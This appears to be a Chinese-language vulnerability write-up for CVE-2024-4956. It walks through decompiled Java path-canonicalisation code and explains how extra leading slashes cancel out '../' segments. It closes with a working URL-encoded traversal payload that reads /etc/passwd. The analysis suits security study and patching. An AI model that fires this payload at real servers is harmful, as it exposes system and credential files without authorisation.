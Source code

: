 # CVE-2024-4956

是一个目录遍历的任意文件读取漏洞，具体的分析可以参考1ue师傅的，这里只简单介绍一下漏洞的代码。

直接定位到`ContextHandler.class`的`getResource`：

![image-20240524205549334](README.assets/image-20240524205549334.png)

猜得出来是路径的拼接，看具体的处理代码；

![image-20240524205615755](README.assets/image-20240524205615755.png)



`canonicalPath`是将路径规范化，实际上就是处理`.`和`../`这样的。

需要返回值不为`null`，也就是路径规范化后不能是空路径。

```java
    public static String canonicalPath(String path) {
        if (path != null && !path.isEmpty()) {
            boolean slash = true;
            int end = path.length();

            int i;
            label68:
            for(i = 0; i < end; ++i) {
                char c = path.charAt(i);
                switch (c) {
                    case '.':
                        if (slash) {
                            break label68;
                        }

                        slash = false;
                        break;
                    case '/':
                        slash = true;
                        break;
                    default:
                        slash = false;
                }
            }

            if (i == end) {
                return path;
            } else {
                StringBuilder canonical = new StringBuilder(path.length());
                canonical.append(path, 0, i);
                int dots = 1;
                ++i;

                for(; i < end; ++i) {
                    char c = path.charAt(i);
                    switch (c) {
                        case '.':
                            if (dots > 0) {
                                ++dots;
                            } else if (slash) {
                                dots = 1;
                            } else {
                                canonical.append('.');
                            }

                            slash = false;
                            continue;
                        case '/':
                            if (doDotsSlash(canonical, dots)) {
                                return null;
                            }

                            slash = true;
                            dots = 0;
                            continue;
                    }

                    while(dots-- > 0) {
                        canonical.append('.');
                    }

                    canonical.append(c);
                    dots = 0;
                    slash = false;
                }

                if (doDots(canonical, dots)) {
                    return null;
                } else {
                    return canonical.toString();
                }
            }
        } else {
            return path;
        }
    }

    private static boolean doDots(StringBuilder canonical, int dots) {
        switch (dots) {
            case 0:
            case 1:
                break;
            case 2:
                if (canonical.length() < 2) {
                    return true;
                }

                canonical.setLength(canonical.length() - 1);
                canonical.setLength(canonical.lastIndexOf("/") + 1);
                break;
            default:
                while(dots-- > 0) {
                    canonical.append('.');
                }
        }

        return false;
    }

    private static boolean doDotsSlash(StringBuilder canonical, int dots) {
        switch (dots) {
            case 0:
                canonical.append('/');
                break;
            case 1:
                return false;
            case 2:
                if (canonical.length() < 2) {
                    return true;
                }

                canonical.setLength(canonical.length() - 1);
                canonical.setLength(canonical.lastIndexOf("/") + 1);
                return false;
            default:
                while(true) {
                    if (dots-- <= 0) {
                        canonical.append('/');
                        break;
                    }

                    canonical.append('.');
                }
        }

        return false;
    }
```

debug跟着逻辑走一遍就可以理解，在遇到`../`的时候，会回溯一层路径，例如将`/a/b/../`变成`/a/`。因此就像1ue师傅说的，一个`../`会吃掉一个`/`。在前面添加相同数量的`/`，就可以想抵消，例如`/////../../../../etc/passwd`有4个`../`，就可以吃到前面的4个`/`，因此`canonicalPath`的结果变成`/etc/passwd`，不为`null`，成功的绕过。

后续拼接到`_baseResource`，实现路径穿越然后读取文件。

实际上如果传`aaa`，前面本来就会拼接上一个`/`，所以如果传7个`/`加7个`../`，经过处理后前面是8个`/`，所以会留下一个`/`



EXP：

```http
%2f%2f%2f%2f%2f%2f%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

